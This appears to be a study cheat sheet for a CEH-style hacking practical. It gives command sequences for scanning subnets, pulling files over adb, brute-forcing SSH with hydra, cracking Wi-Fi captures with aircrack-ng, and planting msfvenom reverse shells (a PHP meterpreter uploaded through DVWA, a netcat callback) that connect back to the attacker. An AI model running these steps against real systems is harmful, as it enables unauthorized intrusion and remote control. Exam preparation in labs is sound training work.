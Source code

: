 # Finding and Accessing Mobile Devices
1. sudo nmap -p 192.168.0.0/24
2. adb connect <target_ip>:5555
3. adb shell
4. Use ls, cd and pwd to navigate
5. adb pull to get certain files

# Example Question ELF
A mobile device in the 192.168.0.0/24 subnet has malicious files. Obtain the elf files and find the hash of the file with the highest entropy value
1. Refer to #Finding and Accessing Mobile Devices to obtain files
2. After obtaining all files, use entropy tool to determine highest value
3. ent -h OR apt install ent
4. ent <files found> 
    - Determine highest value after scanning all files
5. sha384sum <file>
    - good for determining SHA 384 Hashes

# Encrypted Volumes
1. Use Veracrypt to decrypt the volume
2. Select File... -> Choose a Drive to mount on -> Mount
3. There is normally a password to decrypt. It should be provided somewhere.
4. Go to unlocked Drive, do your task.

# Cracking Hashes
1. Use www.hashes.com

# Remote Access Trojans (RAT)
1. Try to find unusual ports by running
2. nmap -T5 -A -p- <ip> (will take time)
3. Find the unusual port and then go to Windows Box
4. CEH Module 7 Malware Threats -> Trojan Types -> RAT -> Theef
5. Input ip and port and connect
6. Select 'file explorer' to browse through directory

# Hash Tampering
1. Use MD5 Calculator to compare hashes

# Finding files in DVWA
If given a link (http://192.168.0.##:8080/DVWA)
And a path Eg. “C:\wamp64\www\DVWA\hackable\uploads\”
1. Take the tail of the path (\hackable\uploads\) and add it to the end of the link
2. Should show a file directory with target files.

# Analyzing IoT Traffic
1. Use Wireshark and filter by MQTT
2. Finding a message or topic should be in the info section

# Analyzing Wireless Traffic
1. Use aircrack-ng <.cap file>
2. aircrack-ng -b <MAC address> -w '<Password list>' '<.cap file>'
3. Should output the password

# Reverse Shells
1. If asked to perform vulnerability research on a webapp, try using Zap
2. Eg. If scanning DVWA, you'll find file inclusion/file upload vulnerabilities
3. Use metasploit to create a reverse shell
4. msfconsole
5. msfvenom -p php/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw >exploit.php 
    - Creates a php file with a reverse shell going to localhost:4444
6. use exploit/multi/handler
    - Handles the exploit and gives shell
7. set payload php/meterpreter/reverse_tcp
8. Set LHOST <target ip>
9. Upload the created exploit.php file
10. Open a terminal and type run. Put URL into browser and should create a meterpreter session.
11. ls to look for target files

# Reverse Shell Alt Scenario
A target that has remote login and command-line execution and is running Linux. Gain access and find a target file. (subnet is 192.168.0.0/24)
1. nmap -p 22,23,80,3389 192.168.0.0/24
    - Check ssh, telnet, tcp and rdp (in this example, found 192.168.0.100)
2. sudo nmap -sS -sV -p- -O 192.168.0.100
    - Eg. Found open telnet port
3. telnet 192.168.0.100 80 and GET / HTTP/1.0
4. Try using hydra to break weak credentials on ssh
5. hydra -L user.txt -P pass.txt 192.168.0.100 ssh
    - Eg. Found ubuntu user with weak password
6. ssh ubuntu@192.168.0.100
7. telnet 192.168.0.100
8. Once inside, create reverse shell with metasploit
    - msfvenom -p cmd/unix/reverse_netcat LHOST=<my_ip> LPORT=4444
9. Listen on port 4444 from own machine
    - nc -nvlp 4444
10. Once shell is obtained, find file with the following command:
    - find . -name target.txt